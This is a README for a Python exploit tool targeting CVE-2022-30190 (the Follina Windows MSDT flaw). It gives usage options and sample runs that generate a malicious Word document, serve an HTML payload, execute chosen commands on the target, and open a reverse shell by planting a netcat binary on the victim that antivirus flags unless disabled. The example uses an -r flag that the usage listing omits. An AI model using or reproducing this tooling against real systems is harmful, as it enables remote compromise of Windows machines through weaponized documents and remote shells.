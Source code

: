 # CVE-2022-30190
Microsoft Windows Support Diagnostic Tool RCE   
&nbsp;

## POC
![poc](./poc.png)
&nbsp;

## Usage
```
usage: cve-2022-30190.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]

options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./cve-2022-30190.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```
&nbsp;

# Examples

### Pop calc.exe:
```
$ python3 cve-2022-30190.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./cve-2022-30190.doc
[+] serving html payload on :8000
```

### Pop notepad.exe:
```
$ python3 cve-2022-30190.py -c "notepad"
```

### Get a reverse shell on port 9001.
```
$ python3 cve-2022-30190.py -r 9001
```
Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.
</br>&nbsp;

## How Does It Works
![poc](./how-work.png)
</br>&nbsp;

## Credit
[JohnHammond](https://github.com/JohnHammond/msdt-follina/blob/main/README.md)'s github page.</br>
[SANS](https://isc.sans.edu/forums/diary/New+Microsoft+Office+Attack+Vector+via+msmsdt+Protocol+Scheme+CVE202230190/28694)'s webpage.</br>
</br>&nbsp;

## Support
You can Follow [me](https://twitter.com/iamfuche) on twitter or buy me a [Coffee](https://buymeacoffee.com/iamfuche)
